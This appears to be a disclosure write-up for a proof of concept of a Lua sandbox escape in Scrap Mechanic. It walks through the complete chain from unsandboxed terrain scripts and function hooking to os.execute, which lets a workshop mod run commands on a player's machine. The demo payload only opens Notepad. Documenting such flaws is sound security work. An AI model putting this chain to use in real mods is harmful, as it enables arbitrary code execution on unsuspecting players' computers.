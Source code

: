 ## The vulnerability
Terrain scripts have always been unsandboxed ever since they were introduced in the Challenge Mode update (0.3.3). To create a world with a terrain script you need to use the `sm.world.createWorld` function. This function can only be called from a game script environment.

To quickly show the vulnerability works we can add the following code to `CreativeGame.server_onCreate`:
```lua
sm.world.createWorld(
    "$CONTENT_637efa72-b1cc-4b16-86c3-222ecad21bcd/Scripts/game/worlds/RceFlatWorld.lua", -- Filename
    "CreativeFlatWorld", -- Classname
    nil, -- Data
    0x5EED5EED -- Seed
)
```
This creates a new world with our custom world script. The base directory of our mod is `$CONTENT_637efa72-b1cc-4b16-86c3-222ecad21bcd`, which consists of `$CONTENT_` followed by the localId of our mod.

In the world script we make the game use our custom terrain script.
```lua
-- RceFlatWorld.lua
CreativeFlatWorld.terrainScript = "$CONTENT_637efa72-b1cc-4b16-86c3-222ecad21bcd/Scripts/game/terrain/terrain_rce_flat.lua"
```

Now we've escaped the sandbox in `terrain_rce_flat.lua`:
```lua
os.execute("start notepad.exe")
```

## Exploiting the vulnerability
If we want to exploit the vulnerability in a workshop mod we don't have the luxury to simply modify game files. Therefore we have to find a different way to make our mod execute `sm.world.createWorld` in the game script environment.

### Script environment
It is possible to let arbitrary code run in a game script environment by overwriting a function that is used in a script run inside the game script environment. This can be done by hooking the function.

> **Note:** Hooking functions in lua is not a vulnerability.

If we know the function `sm.namespace.func` is being called in the script environment we want out payload to run in, we can do the following:
```lua
if not g_hookedOriginal then
    g_hookedOriginal = sm.namespace.func
end

function sm.namespace.func(...)
    
    payload()

    -- Call the original function
    return g_hookedOriginal(...)
end
```
This replaces the original function with our own. When the game calls `sm.namespace.func` our payload will be executed in the required script environment.

### Finding a function to hook
In order to execute our payload we need to find a function inside the `sm` table that is called inside the game environment and called from the server. In survival mode there are a lot of functions being called in a (fixed) update loop. Unfortunately `CreativeGame.lua` does not have any functions we can hook in the fixed update loop.

Another way to call a game script environment function is to use `sm.event.sendToGame`. This function takes a function name and a data parameter. We can use this to call `CreativeGame.<function_name>` functions that are not blacklisted.

A function that can be used for this is `CreativeGame.client_showMessage`. Although the name of the function suggests it can only be executed client-side, executing it server-side works just fine.
```lua
function CreativeGame.client_showMessage( self, params )
	sm.gui.chatMessage( params )
end
```
Now we can hook `sm.gui.chatMessage` and call it using `sm.event.sendToGame("client_showMessage", "Hooked")`.

## Proof of concept
I've made an [example script](https://github.com/TechnologicNick/Scrap-Mechanic-Terrain-RCE-POC/blob/master/mod/Scripts/ExploitPart.lua) that can be used to exploit the vulnerability. Interacting with the part will hook `sm.gui.chatMessage`, trigger the `CreativeGame.client_showMessage` event, execute the payload and restore everything to the way it was before. The terrain script is loaded 8 times by the game so 8 new instances of `notepad.exe` will be spawned.